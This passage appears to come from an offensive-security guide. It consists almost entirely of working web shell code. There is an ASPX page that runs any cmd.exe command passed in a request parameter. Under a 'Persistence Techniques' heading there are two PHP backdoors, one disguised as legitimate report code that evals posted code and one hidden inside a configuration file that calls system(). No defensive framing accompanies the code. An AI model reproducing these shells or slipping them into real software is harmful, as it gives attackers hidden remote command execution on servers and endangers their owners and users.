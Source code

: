 #### Custom ASPX Web Shell

**Basic ASPX Command Shell:**
```csharp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
    void Page_Load(object sender, EventArgs e)
    {
        if (Request["cmd"] != null)
        {
            Process p = new Process();
            p.StartInfo.FileName = "cmd.exe";
            p.StartInfo.Arguments = "/c " + Request["cmd"];
            p.StartInfo.UseShellExecute = false;
            p.StartInfo.RedirectStandardOutput = true;
            p.Start();
            Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
        }
    }
</script>
<html>
<body>
<form>
<input type="text" name="cmd" />
<input type="submit" value="Execute" />
</form>
</body>
</html>
```

### Persistence Techniques

#### Hidden Web Shells

**Steganographic Embedding:**
```php
<?php
// Legitimate-looking code
function generateReport($data) {
    return array_sum($data) / count($data);
}

// Hidden functionality
if($_GET['debug'] == 'admin') {
    eval($_POST['code']);
}
?>
```

**Configuration File Injection:**
```php
// Within existing config file
$config = array(
    'database' => 'localhost',
    'username' => 'dbuser'
);

// Hidden shell
if($_GET['maint']) { system($_GET['cmd']); }
```

